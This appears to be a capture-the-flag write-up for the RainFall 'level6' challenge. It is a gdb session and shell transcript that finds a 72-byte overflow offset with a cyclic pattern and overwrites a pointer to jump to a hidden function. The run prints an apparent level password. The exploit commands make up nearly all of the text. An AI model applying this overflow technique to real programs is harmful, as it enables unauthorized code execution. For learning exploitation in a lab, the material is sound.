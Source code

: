 ```(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
---Type <return> to continue, or q <return> to quit---
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
(gdb) q```

```(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? () -> 72```

(gdb) q
A debugging session is active.

        Inferior 1 [process 7380] will be killed.

Quit anyway? (y or n) y
level6@RainFall:~$ python -c 'print "A"*72 + "08048454"[::-1]' 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA45484080
level6@RainFall:~$ echo python -c 'print "A"*72 + "08048454"[::-1]' 
python -c print "A"*72 + "08048454"[::-1]
level6@RainFall:~$ echo $(python -c 'print "A"*72 + "08048454"[::-1]') 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA45484080
level6@RainFall:~$ echo $(python -c 'print "A"*72 + "\x08\x04\x84\x54"[::-1]') 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAT�
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72 + "\x08\x04\x84\x54"[::-1]') 
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d